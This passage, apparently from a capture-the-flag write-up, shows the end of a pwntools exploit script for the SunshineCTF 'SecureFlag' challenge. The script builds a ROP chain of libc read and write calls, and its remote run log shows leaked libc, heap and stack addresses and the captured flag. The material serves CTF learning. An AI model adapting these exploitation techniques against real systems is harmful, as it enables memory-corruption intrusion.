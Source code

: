 ```py
payload += pop_rdx
payload += p64(0x100)
payload += p64(libc.sym.read)

payload += pop_rdi
payload += p64(1)
payload += pop_rsi
payload += writable_addr
payload += pop_rdx
payload += p64(0x100)
payload += p64(libc.sym.write)

write(1, payload)
p.sendlineafter(b'option:', b'5')


######################################################################################

p.interactive()
```
## Ending
```sh
➜  SecureFlag ./exploit.py REMOTE
[*] '/home/elchals/CTFs/Sunshine/SecureFlag/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
[*] '/home/elchals/CTFs/Sunshine/SecureFlag/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
    Debuginfo:  Yes
[*] Connecting to 2024.sunshinectf.games : 24002
[+] Opening connection to 2024.sunshinectf.games on port 24002: Done
[i] Libc Base: 0x76ac7ba4b000
[i] Heap: 0x620ae2344000
[i] .text: 0x620ae2000000
[i] Strorage: 0x620ae2203060
[i] FD: 0x133
[i] Stack: 0x7ffe12ccade0
[*] Loaded 199 cached gadgets for './libc.so.6'
[*] Switching to interactive mode
 
Invalid choice... do better
sun{H0us3_Of_F0rcE_w1th_4_fUn_tW!$t}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
```
